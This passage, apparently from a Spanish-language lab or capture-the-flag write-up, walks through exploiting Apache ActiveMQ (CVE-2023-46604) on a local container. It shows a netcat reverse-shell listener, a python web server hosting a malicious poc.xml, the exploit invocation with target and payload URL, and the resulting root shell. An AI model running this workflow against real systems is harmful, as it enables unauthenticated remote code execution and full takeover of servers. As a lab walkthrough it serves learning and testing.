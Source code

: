 ```bash
# Comandos para explotación
nc -nlvp 443
```

Ahora montamos un servidor con python3 para que ese accesible el archivo **poc.xml** malicioso desde nuestra maquina atacante
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ejecutamos el exploit
```bash
# Reverse shell o acceso inicial
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -p 61616 -u http://172.17.0.1/poc.xml
Python implementation of Apache ActiveMQ Unauthenticated Remote Code Execution 
CVE: CVE-2023-46604
Coded by N.Keshawarz (https://github.com/NKeshawarz)
```

---
## Evidencia de Compromiso
Para esta maquina no tuvimos que realizar escalada ya que el servicio lo estaba ejeuctando el usuario **root** por lo tanto ganamos acceso con privilegos elevados:
```bash
# Captura de pantalla o output final
root@52f59c06b8ec:/# whoami                                                                                                                                                                                                                                                   
whoami      
root 
```